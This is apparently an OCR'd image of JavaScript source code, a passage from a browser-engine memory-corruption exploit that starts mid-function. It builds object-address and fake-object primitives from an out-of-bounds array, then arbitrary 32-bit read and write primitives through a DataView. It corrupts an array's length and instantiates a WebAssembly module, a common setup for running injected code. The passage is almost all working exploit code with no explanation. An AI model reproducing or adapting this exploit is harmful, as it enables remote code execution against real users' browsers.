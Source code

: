return addr;
}
function fakeobj(addr) {
let r8 = d2u(oob_array[object_idx]);
if (object_idx_flag === 0) {
oob_array[object_idx] = u2d(addr, r8[1]);
}else {
oob_array[object_idx] = u2d(r8[0], addr);
}
return obj_array.target;
}
let bk_idx = undefined;
let bk_idx_flag = undefined;
for (let i = 0; i < max_size; i++) {
if (d2u(oob_array[i])[0] === 1337) {
bk_idx = i;
bk_idx_flag = 1;
break;
}if (d2u(oob_array[i])[1] === 1337) {
bk_idx = i + 1;
bk_idx_flag = 0;
break;
}
}
let dv = new DataView(ab);
function get_32(addr) {
let r8 = d2u(oob_array[bk_idx]);
if (bk_idx_flag === 0) {
oob_array[bk_idx] = u2d(addr, r8[1]);
} else {
oob_array[bk_idx] = u2d(r8[0], addr);
}
let val = dv.getUint32(0, true);
oob_array[bk_idx] = u2d(r8[0], r8[1]);
return val;
}
function set_32(addr, val) {
let r8 = d2u(oob_array[bk_idx]);
if (bk_idx_flag === 0) {
oob_array[bk_idx] = u2d(addr, r8[1]);
} else {
oob_array[bk_idx] = u2d(r8[0], addr);
}
dv.setUint32(0, val, true);
oob_array[bk_idx] = u2d(r8[0], r8[1]);
}
function write8(addr, val) {
let r8 = d2u(oob_array[bk_idx]);
if (bk_idx_flag === 0) {
oob_array[bk_idx] = u2d(addr, r8[1]);
} else {
oob_array[bk_idx] = u2d(r8[0], addr);
}
dv.setUint8(0, val);
}
let fake_length = get_32(addrof(oob_array)+12);
set_32(get_32(addrof(oob_array)+8)+4,fake_length);
let wasm_code = new
Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,
128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,
128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0
,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
let wasm_mod = new WebAssembly.Module(wasm_code);
let wasm_instance = new WebAssembly.Instance(wasm_mod);